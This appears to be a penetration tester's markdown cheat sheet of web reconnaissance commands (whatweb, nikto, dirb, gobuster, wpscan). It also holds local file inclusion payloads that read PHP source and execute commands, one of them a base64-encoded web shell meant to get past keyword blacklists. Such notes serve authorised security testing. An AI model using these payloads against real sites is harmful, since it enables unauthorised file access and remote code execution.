Subdomains: [getSubdomains.sh](file:////home/kali/Documents/passiveInformationGathering/)
Get pictures to multiple websites: [ip2webOverview.sh](file:////home/kali/Documents/passiveInformationGathering/)
##### Technologies
```bash
whatweb -v -a 3 $hip:80
```
##### Nikto
```bash
nikto -host=http://$hip/ | tee nikto.txt
```
`-T` for smaller test, `-maxtime=30s` for setting maxtime
##### DIRB
```bash
dirb http://$hip:80 -S | tee dirb.txt
```
Try whether interactively works better for me, so that it does not waste time going into all wordpress dirs
##### Gobuster
```bash
gobuster dir -u http://$hip -w /usr/share/wordlists/dirb/common.txt -o gobuster.txt -x txt,pdf,config 
```
Alternative to DIRB
##### Files of possible relevance
`/robots.txt` , `/crossdomain.xml` `/clientaccesspolicy.xml` `/sitemap.xml` and `/.well-known/`

#### Search for interesting files
```bash
tree $folder | grep -v ".php" | grep -v ".js" | grep -v ".css" | tee >(wc -l)
```

##### Host php files locally to try them
```bash
php -S 127.0.0.1:8000
```

##### PHP Wrappers
You can use a LFI to:
- read files, e.g. admin.php with `index.php?page=php://filter/convert.base64-encode/resource=admin.php` , then decode base64 by piping it to `base64 -d`
- execute commands if _allow_url_include_ is enabled with `index.php?page=data://text/plain,<?php%20echo%20system('ls');?>` (or `data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"` if the string "system" is blacklisted).
##### Yet-to-try:
Check potential vulnerable urls with https://github.com/1ndianl33t/Gf-Patterns
https://github.com/stevenvachon/broken-link-checker
https://github.com/projectdiscovery/nuclei-templates/tree/4e3f843e15c68f816f0ef6abce5d30b6cf6d4a30/exposures/tokens


## WPSCAN
##### Extended scan:
```bash
wpscan --url "https://$hip:80" --detection-mode aggressive --plugins-detection aggressive --disable-tls-checks --enumerate ap,vt,cb,dbe | tee wpscan_extended.txt
```
##### Fast Scan
```bash
wpscan --url "https://$hip:80" --detection-mode aggressive --plugins-detection aggressive --disable-tls-checks --enumerate p,vt,cb,dbe
```

